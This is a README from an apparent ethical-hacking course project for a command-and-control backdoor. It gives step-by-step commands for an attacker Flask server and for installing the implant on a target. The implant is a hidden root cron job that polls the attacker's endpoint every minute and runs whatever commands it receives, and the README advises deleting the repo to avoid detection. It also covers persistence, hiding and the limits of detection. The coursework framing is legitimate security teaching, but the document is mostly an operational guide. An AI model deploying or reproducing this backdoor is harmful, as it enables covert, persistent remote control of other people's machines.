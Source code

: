 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    cd server
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be generated and stored in the `server` directory

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\nls' > commands.txt
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP} # server should be reachable from target machine
    # Example: flask run --host={10.0.2.4}
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    ```
2. From the **attacker machine**, manually copy the contents of public key (`public.pem`) to the `/client` directory on the **target machine**. The new public key should also be named `public.pem`.
    
3. Run the setup script

    ```bash
    cd Command-Control-main/client
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```
4. Done!

    Additionally, you may delete the `Command-Control-main` directory to avoid detection on the target machine.



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and the commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is forwarded to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot, and this backdoor will persist automatically because cron jobs are run on boot by default.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip, port, and endpoint that the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users (typically)
    - All cron related files are hidden by a period in front of the file name to hide from simple `ls` commands

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.
